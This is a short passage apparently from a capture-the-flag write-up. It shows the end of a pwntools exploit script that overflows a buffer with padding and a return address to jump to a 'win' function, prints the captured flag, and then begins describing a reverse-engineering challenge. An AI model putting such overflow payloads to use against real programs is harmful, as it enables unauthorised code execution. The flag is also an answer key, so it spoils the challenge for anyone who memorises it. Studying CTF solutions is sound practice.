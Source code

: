 ```python
    """)
    pause() 

# GDB()

win = exe.symbols["win"] + 4
pay = b"A"*7*8 + p64(win) 
sa(b"play\n", pay)

p.interactive()
# KCSC{bypass_strstr_by_null_byte}
```

# List Challenges 
rev/mission: impossible

{{< admonition note "Challenge Information" >}}
* 0 solve / 500 pts / by sonx
* **Given files:** [rev_mission_impossible.rar](https://wru-my.sharepoint.com/:u:/g/personal/2251272678_e_tlu_edu_vn/EZckKwbqg-FMrk8-KWf740kBqOaaqriUc28UKFnCsbalvw?e=awVmt4)
* **Description:** Defeat all the adversaries to protect your base. We're relying
{{< /admonition >}}